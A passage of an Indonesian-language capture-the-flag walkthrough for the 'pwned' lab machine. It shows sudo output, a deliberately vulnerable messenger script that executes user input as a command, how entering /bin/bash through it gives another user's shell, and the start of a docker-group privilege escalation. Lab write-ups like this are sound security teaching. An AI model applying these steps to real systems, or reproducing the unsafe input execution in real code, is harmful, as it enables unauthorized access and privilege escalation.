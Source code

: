 ```bash
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh

```
Ada sesuatu nih, bahwa untuk masuk user *selena* saya harus menjalankan atau mengeksekusi script tadi. saya mencoba untuk membaca isi kode tersebut.
```sh
ariana@pwned:~$ cat /home/messenger.sh
#!/bin/bash

clear
echo "Welcome to linux.messenger "
		echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
		echo ""
echo "$users"
		echo ""
read -p "Enter username to send message : " name 
		echo ""
read -p "Enter message for $name :" msg
		echo ""
echo "Sending message to $name "

$msg 2> /dev/null

		echo ""
echo "Message sent to $name :) "
		echo ""
```
oke disitu ada syntax **$msg 2> /dev/null** yang dimana variabel pesan **$msg** atau `stderr` yang saya kirimkan itu bisa dieksekusi menjadi file, dengan menuju *null* tadi balik kepada yang saya inginkan, apa saja. Lebih jelasnya seperti ini. 

```bash
ariana@pwned:~$ sudo -u selena /home/messenger.sh
```
saya mengganti user saya ke *selena* untuk mendapatkan *system shell*-nya, yaitu `/bin/bash`.
Oke output yang dihasilkan seperti ini.

![apasaja](https://i.postimg.cc/Hn3C0kNd/pwned-8.png)

and then boom! we got the 2nd flag for a long shit.

## Escalating root {#privesc}
Oke, sekarang masuk pada bab **Privilege Escalation**. Dimana saya disini akan menjelaskan bagimana saya bisa masuk terhadap *system shell* milik *superuser* untuk mengendalikan semua. Oke ini saya males ngetik panjang-panjang karna capek.
```bash
selena@pwned:~$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```
Oke disitu terlihat **docker** yang berfungsi untuk memisahkan proses-proses agar dapat berjalan dengan sendirinya. Bagi para pentester pasti tidak asing dengan yang namanya [gtfobins](https://gtfobins.github.io/). 
